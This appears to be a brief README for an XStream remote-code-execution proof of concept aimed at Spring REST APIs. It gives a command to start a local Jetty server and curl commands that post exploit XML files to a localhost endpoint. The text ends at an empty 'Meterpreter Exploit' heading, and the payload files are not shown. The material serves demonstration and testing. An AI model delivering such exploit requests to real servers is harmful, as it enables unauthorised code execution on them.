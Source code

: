 XStreamServer
=============

RCE Exploit PoC for Spring based RESTFul APIs using XStream as Unmarshaler

Start the server using the maven jetty plugin:
mvn -Djetty.port=8080 -DDebug clean  jetty:run

Expected use:
curl --header "content-type: application/xml" --data @contact.xml "http://localhost:8080/contacts"

Exploit knowing the interface:
curl --header "content-type: application/xml" --data @exploit.xml "http://localhost:8080/contacts"

Generic Exploit:
curl --header "content-type: application/xml" --data @exploit2.xml "http://localhost:8080/contacts"

Meterpreter Exploit:


